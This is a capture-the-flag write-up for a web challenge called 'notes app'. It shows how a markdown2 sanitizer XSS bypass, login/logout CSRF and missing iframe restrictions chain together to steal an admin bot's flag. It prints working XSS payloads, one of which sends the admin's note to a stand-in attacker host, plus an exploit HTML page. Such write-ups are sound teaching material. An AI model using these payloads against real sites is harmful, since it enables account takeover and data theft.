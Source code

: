 # notes app

## Description

noob just created a secure app to write notes.

Show him how secure it really is!

https://notes.web.byteband.it/

## Solution

A service running at `https://notes.web.byteband.it/` and given source code.

Functionality is simple that, every user have only one note(sanitised by markdown2) and Admin have it too(it stores the FLAG).

Given an Admin bot which loads the admin account and then visits our URL (no domain restrictions).

Observation - 1

Markdown2 has bypass for XSS attack. The attack vectore was shown in issue on github repo of the project: https://github.com/trentm/python-markdown2/issues/341

Through that we got XSS, but no use. It's a SELF XSS :(

payload:
```
<http://g<!s://q?<!-<[<script>alert(1);/\\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>aler(1);/*](http://g)->a>
```

Observation - 2

what we can do with SELF XSS (individually) , Again looked at the site and listed the issues

1) Logout CSRF (/logout)
2) Login CSRF (/login?username=xxxx&password=xxxxxx)
3) SELF XSS
4) No IFRAME Restrictions

After some trails by combining them, finally crafted an attack!

Exploitation

1) Create an Attacker account and inject the XSS payload in his profile.

```
<http://g<!s://q?<!-<[<script>window.location = 'http://attacker.listner.com/?a='+JSON.stringify(top.admin.document.body.getElementsByClassName('is-4')[0].innerText);/\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>alert(1);/*](http://g)->a>
```

2) Create HTML page with exploit and publish it on the attacker server

```xml
<!DOCTYPE html>
<html>
<head>
  <script type="text/javascript">
    document.addEventListener("DOMContentLoaded", function(event) {// Ждем когда спарсится контент страницы

      setTimeout(function(){
        /* Чтобы загрузился iframe админа и логаут не произошел раньше времени */
        user.location = "https://notes.web.byteband.it/logout";

        setTimeout(function(){
          user.location = "https://notes.web.byteband.it/login?username=jack&password=1w2w3w4w"; 

        },2000);

      },2000);
      
    });

  </script>
</head>
<body>
  <!-- <img src="https://effigis.com/wp-content/uploads/2015/02/DigitalGlobe_WorldView2_50cm_8bit_Pansharpened_RGB_DRA_Rome_Italy_2009DEC10_8bits_sub_r_1.jpg"> -->
  <img src="http://deelay.me/20000/http://example.com"/> <!-- Продлим событие onload на 20 сек. Т.к. после него бот закроет страницу. -->
  <iframe name="admin" src="https://notes.web.byteband.it/profile"></iframe>
  <iframe name="user" src="https://notes.web.byteband.it/profile"></iframe>
</body>
</html>
```

Note: To make the bot to give some time for this process, Added `<img src="http://deelay.me/20000/http://example.com">` Which takes 20 sec to load the image from server.

3) Submitting the final URL to bot
Flag :
flag{ch41n_tHy_3Xploits_t0_w1n}

